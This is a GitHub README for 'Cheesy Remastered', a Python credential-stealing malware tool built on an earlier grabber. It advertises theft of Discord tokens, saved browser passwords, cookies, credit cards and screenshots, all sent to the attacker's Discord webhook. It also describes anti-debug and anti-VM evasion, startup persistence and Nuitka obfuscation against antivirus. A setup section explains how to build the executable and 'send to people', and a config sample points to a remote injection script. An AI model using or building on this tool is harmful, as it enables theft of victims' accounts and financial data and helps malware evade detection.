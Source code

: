 <h1 align="center">
  Cheesy Remastered
</h1>

<p align="center"> 
  <kbd>
<img src="https://cdn.kkgmedia.com/pop-cat.gif">
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/last-commit/bananaman2020/cheesy?style=flat-square">
  <img src="https://sonarcloud.io/api/project_badges/measure?project=bananaman2020_cheesy&metric=ncloc"/>
</p>

<h2 align="center">
 Cheesy was made with

K78 ❌ tesco ✅

</h2>

**NOTE:** \
Cheesy was made for educational purposes, therefore all consequences caused by your actions are **your** responsibility and accountability.


---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://discord.gg/ys8WBY8VEQ)
- [🎉・Setting up Cheesy](#setup)
- [⚙・Config](#config)
- [🐢・Why is it slower?](#slow)
- [🔎・Why choose Cheesy?](#why_cheese)
- [🌟・Todo/Enhancements](#enhancements)
- [📝・Changelog](#changelog)

## <a id="features"></a>🔰 〢 Features

```
> Anti-vm/Anti-debug
> Improved upon Rdimo's project and added Obfuscation using the Nuitka Project
> Add to startup
> Hides itself
> Supports github.com/Rdimo/Discord-Webhook-Protector so webhook can't be deleted or spammed
> Options are configurable
> Pretty Fast Even if it Was Made With Python
> Windows Product Key & Build Info
> IP & Geolocation. (Country, City, Google Maps Location)
> A screenshot of all their monitors
> All valid/working discord tokens. (Bypasses BetterDiscord, Token Protector and Discord's new encryption)
> Their Passwords & Credit Cards for Discord (updates when they change it)
> All Passwords, Cookies and History from Google
> + More!
```

---

## <a id="setup"></a> 📁 〢 Setting up Cheesy

1. Install [python](https://www.python.org/) and add it to [path](https://datatofish.com/add-python-to-windows-path/).
2. Open up [main.py](https://github.com/bananaman2020/cheesy/blob/master/main.py) with notepad or some other editor
3. Locate the config at the top of the file and Replace "WEBHOOK_HERE" with your [discord webhook](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
4. Double Click `setup.bat` and allow it to finish.
5. Download Visual Studio Community 2022 and get the C++ Development Feature Pack during the installer screen
6. A Window will open prompting for a name. Put something in such as "Token_Logger" (You can always rename the file later)
7. Wait for the process to complete and then get the file that was made in the downloaded folder and send to people :)

## <a id="config"></a>⚙ 〢 Config

If you want to change the config, open up [main.py](https://github.com/bananaman2020/cheesy/blob/master/main.py) and locate it at the top. There you can configure the following:

```py
config = {
    # replace WEBHOOK_HERE with your webhook ↓↓ or use the api from https://github.com/Rdimo/Discord-Webhook-Protector
    # Recommend using https://github.com/Rdimo/Discord-Webhook-Protector so your webhook can't be spammed or deleted
    'webhook': "WEBHOOK_HERE",
    # ONLY HAVE THE BASE32 ENCODED KEY HERE IF YOU'RE USING https://github.com/Rdimo/Discord-Webhook-Protector
    'webhook_protector_key': "KEY_HERE",
    # keep it as it is unless you want to have a custom one
    'injection_url': "https://raw.githubusercontent.com/bananaman2020/Discord-Injection/master/injection.js",
    # if True, it will ping @everyone when someone ran Hazard v2
    'ping_on_run': False,
    # set to False if you don't want it to kill programs such as discord upon running the exe
    'kill_processes': True,
    # if you want the file to run at startup
    'startup': True,
    # if you want the file to hide itself after run
    'hide_self': True,
    # does it's best to prevent the program from being debugged and drastically reduces the changes of your webhook being found
    'anti_debug': True,
    # this list of programs will be killed if hazard detects that any of these are running, you can add more if you want
    'blackListedPrograms':
    [
      ...
    ]

}
```

---
## <a id="slow"></a>🐢 〢 Why is it slower to compile now?

well as the new compiler is "Nuitka" it pretty much works by translating python into C++ which is a lengthy process though during my testing on a i7-10700k compiling takes around 5-10minutes

This improves security by a lot. The reason I chose Nuitka is because (A) it's free (B) It obfuscates pretty well

The only con to this is that dropping the file into virustotal or interzer analyze will display a flag that shows "Probably Packed (Suspicious)" This is because Nuitka's unpacker that's in the exe leaves a few traces to the obfuscation method. This is out of my control as it is simply way too complicated to change but for 99.9% of people this won't be an issue.

## <a id="why_cheese"></a>🔎 〢 Why choose Cheesy?

idk i did this so like piss off egirls and shit

Here are some pros and cons why/why not use Cheesy instead of other ones

### ✔ Pros

⁃ Extremely well maintained, making it a safe choice \
⁃ Partly undetected just because it gets updates often \
⁃ Easy to use and setup \
⁃ Completely free and open source \
⁃ Loads of wide spread features not only focused on discord \
⁃ Cleans itself up, deleting all traces of itself which suprisingly most others don't \
⁃ Supports a webhook protector \
⁃ Even thought it's made in python it's very fast thanks to async and threading \
⁃ Clean embed & isn't spammy like others making it less likely to get ratelimited \
⁃ Takes feedback and listens to what people want to be added/changed/removed

### ❌ Cons

⁃ Made in Python making it lose to other grabbers in terms of speed \
⁃ Python is an interpreted language, it needs to pack the engine & all dependencies making the file size very big \
⁃ Only supports windows 10/11 \
⁃ Can be pretty easily decompiled (still harder than Mercurial atleast)

In the end it's just up to **you** to choose what grabber suits you and your needs the best.

---

## <a id="enhancements"></a>🌟 〢 todo/enhancements

~~overlined~~ = feature got added

- Grab Webcam (screenshot?, video?) 
- Fake Error (custom message, type, etc...)
- File dropper (direct payload link, options: hide it? add to startup? drop location?)
- Self spread 
- Grab Wifi passwords 
- Better Anti-vm/Anti-debug (check screen size?, more registery checks?, make the lists outbound?)
- Exe builder (clean gui, toggable options, compress exe (file size <= 8mb), etc...)
- ~~Grab Chrome history~~
- ~~Grab Minecraft accessToken~~
- ~~Grab hwid (for manual blacklisting)~~
- ~~Grab more network info (ip, geolocation, etc...) and put in seperate txt file~~
- ~~General info (OS, CPU, GPU, RAM, etc...) and put in seperate txt file~~

Not adding/on hold:
- .doc/.pdf file grabbing 
- Metamask Priv Key and seed 

---

## <a id="changelog"></a>💭 〢 ChangeLog

```diff
v1.0.2 : 01-08-2022
+ updated exe builder to play nicely with nuitka
- im losing my sanity

v1.0.1 : 01-08-2022
+ nvm fuck pyarmor
+ i love nuitka (new obfuscator)
- pyarmor got fucked in the ass haha L not paying for ur shit

v1.0.0 : 31-07-2022
+ Lost the old source code so rebuilt based off Hazard
+ Will include pyarmor to obfuscate code
```


<br>

<p align="center">
🌟 <b>Enjoyed Cheesy?</b> Consider dropping a star :)
<br>
Upgraded by bananaman2020 based off Rdimo
<br>
<a href=#top>Back to Top</a></p>
